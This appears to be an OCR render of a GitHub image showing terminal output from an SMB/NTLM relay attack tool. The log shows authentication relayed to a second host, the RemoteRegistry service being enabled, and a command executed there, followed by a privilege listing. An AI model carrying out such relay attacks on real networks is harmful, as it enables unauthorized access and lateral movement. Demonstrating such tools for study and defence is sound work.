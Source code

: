 ```terminal
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.0.102

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
```